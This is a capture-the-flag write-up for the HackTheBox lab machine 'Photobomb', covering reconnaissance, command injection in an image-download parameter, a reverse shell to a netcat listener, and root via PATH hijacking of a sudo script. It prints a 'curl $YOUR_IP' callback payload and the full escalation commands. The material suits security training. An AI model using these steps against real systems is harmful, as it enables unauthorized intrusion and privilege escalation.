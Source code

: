 # Inital scan
I started by joining the machine and started nmap using ***-sC*** flag to run default scripts and ***-sV*** to retrieve the version number of the softwares running on the machine
```
karim@alpacino:~/Desktop/htb/photobomb$ nmap -sC -sV 10.10.11.182
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-07 06:47 EET
Nmap scan report for 10.10.11.182
Host is up (0.063s latency).
Not shown: 989 closed tcp ports (conn-refused)
PORT      STATE    SERVICE       VERSION
22/tcp    open     ssh           OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e2:24:73:bb:fb:df:5c:b5:20:b6:68:76:74:8a:b5:8d (RSA)
|   256 04:e3:ac:6e:18:4e:1b:7e:ff:ac:4f:e3:9d:d2:1b:ae (ECDSA)
|_  256 20:e0:5d:8c:ba:71:f0:8c:3a:18:19:f2:40:11:d2:9e (ED25519)
80/tcp    open     http          nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://photobomb.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
```
I found 2 ports running which are **22** wich is running **SSH** and port **80** which is running http and its redirecting me to http://photobomb.htb/ so added photobomb.htb to my **/etc/hosts/** file and visited the website and I found a static page with a link to another website
![image](photobomb/img/1.png)
there was a link redirects me to printer directory but it requires a username and a password 
![image](photobomb/img/2.png)
and if I type something like admin:admin I get a **401 # Authorization Required** error so returned back and viewed the source code and found some credentials photobomb.js file
![image](img/3.png)
![image](img/4.png)
The credentials are ***pH0t0:b0Mb!*** and if you just visit the link you will be able to access the printer dircetory which is basically a photo gallery
![image](img/5.png)
There is a feature for downloading the photos from the website so I tried to download an image and I captured the request using burp suite
![image](img/6.png)
# Initial access
Firstly I fired an http server using python
```
karim@alpacino:~/Desktop/htb/photobomb$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
so I tried command injection in all parameters using the following command and it worked in the filetype parameter
```
curl $YOUR_IP
```
and I got a request in my python http server
```
karim@alpacino:~/Desktop/htb/photobomb$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.182 - - [07/Feb/2023 07:13:34] "GET / HTTP/1.1" 200 -
10.10.11.182 - - [07/Feb/2023 07:14:05] "GET / HTTP/1.1" 200 -
```
So I tried getting a reverse shell using python and I am using the [pentest monkey cheatsheet](https://pentestmonkey.net/cheat-sheet) and before that I sat up a netcat listner
```
karim@alpacino:~/Desktop/htb/photobomb$ nc -lnvp 9999
Listening on 0.0.0.0 9999
```
and I injected the python reverse shell in the filetype parameter
![image](img/7.png)
and I got a reverse shell with **wizard** user 
![image](img/8.png)
So I went to my home directory and found user.txt file and I was able to read it.
# Privilage Escalation
I tried to run sudo -l to find the command that I am able to run using sudo without using password
```
wizard@photobomb:~$ sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
```
So you can see that I can run cleanup.sh file using sudo without requiring a password
So I used cat command to show the contents of the file
```
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```
you can see that the file is using find and cd command without specifying the full path so we can exploit it by changing the path variable and you can read [this article](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/) to be familier with this method
first we will make two file which are find and cd with the contents /bin/bash and give it the right permissions and run cleanup.sh file using sudo with the path changed to tmp and that't where we put our find and cd files and we got root
```
wizard@photobomb:/tmp$ echo "/bin/bash" > find
wizard@photobomb:/tmp$ echo "/bin/bash" > cd 
wizard@photobomb:/tmp$ chmod +x cd
wizard@photobomb:/tmp$ chmod +x find
wizard@photobomb:/tmp$ sudo PATH=/tmp:$PATH /opt/cleanup.sh
root@photobomb:/home/wizard/photobomb# id
uid=0(root) gid=0(root) groups=0(root)
```
